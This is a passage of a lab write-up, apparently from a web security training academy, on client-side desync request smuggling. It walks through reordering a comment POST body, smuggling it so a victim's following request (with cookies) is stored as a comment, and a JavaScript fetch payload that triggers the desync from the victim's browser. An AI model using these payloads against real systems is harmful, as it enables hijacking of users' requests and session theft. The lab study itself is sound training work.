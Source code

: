 ```http
csrf=kBVF187ngft1vzcFHK5gU4IiYssQRZUZ&postId=5&comment=halilWasHere&name=halilWasHere&email=halilwashere%40halil.com&website=https%3A%2F%2Fwww.halil.com
```

Now move the `comment` to the end as we want to make sure that the victim's normal request is gonna come after. And the body will be:

```http
csrf=kBVF187ngft1vzcFHK5gU4IiYssQRZUZ&postId=5&name=halilWasHere&email=halilwashere@halil.com&website=https://www.halil.com&comment=halilWasHere
```

In order to remove the chances for errors, remove the url encoding and try to send it to see if it works:

```http
csrf=kBVF187ngft1vzcFHK5gU4IiYssQRZUZ&postId=5&name=halilWasHere&email=halilwashere@halil.com&website=https://www.halil.com&comment=halilWasHere
```

We got again a `302 Found` which means it's working.

Copy this whole `post request` to our attack request, as a smuggle request and increase the `Content-Length` as we want for the victim's request to be appended after:

Send the request in the tab group, and we see now that both the attack and the normal request have a `302 Found` and if we check the comment section in the browser we have:

`halilWasHereGET /en HTTP/1.1 Host: 0ad0007504e058c7c925f8c3009e0035`

Now change also the JS file.

```javascript
fetch("https://0ad0007504e058c7c925f8c3009e0035.h1-web-security-academy.net/", {

method: "POST",

body: "POST /en/post/comment HTTP/1.1\r\nHost: 0ad0007504e058c7c925f8c3009e0035.h1-web-security-academy.net\r\nCookie: session=m370RKMtGYk4Q0ujQio6L1c1g8XBviFE\r\nContent-Length: 200\r\nContent-Type: application/x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=kBVF187ngft1vzcFHK5gU4IiYssQRZUZ&postId=5&name=halilWasHere&email=halilwashere@halil.com&website=https://www.halil.com&comment=halilWasHere",

credentials: "include", //with-cookies connection pool

mode: "cors", //make sure the 302 on / is not followed

}

).catch(()=>{

fetch("https://0ad0007504e058c7c925f8c3009e0035.h1-web-security-academy.net/en", {

mode: "no-cors",

credentials: "include"

});

});
```
